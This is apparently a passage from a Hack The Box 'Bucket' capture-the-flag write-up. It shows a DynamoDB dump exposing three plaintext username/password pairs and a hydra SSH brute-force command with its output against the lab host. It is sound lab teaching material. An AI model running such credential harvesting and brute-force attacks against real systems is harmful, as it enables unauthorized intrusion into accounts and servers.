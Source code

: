 ```
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3
}
```

Thankfully the error messages I got while learning this tool were verbose enough that it was fairly easy to correct my mistakes and move on.  After figuring out how to pull data from the table, I found that it contained three username/password combinations.

1. `Mgmt : Management@#1@#`
2. `Cloudadm : Welcome123!`
3. `Sysadm : n2vM-<_K_Q:.Aa2`

I had no idea yet what to do with these credentials, however.  

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ hydra -l users -P passwords 10.10.10.212 ssh      
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-17 14:49:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://10.10.10.212:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-17 14:49:33
```
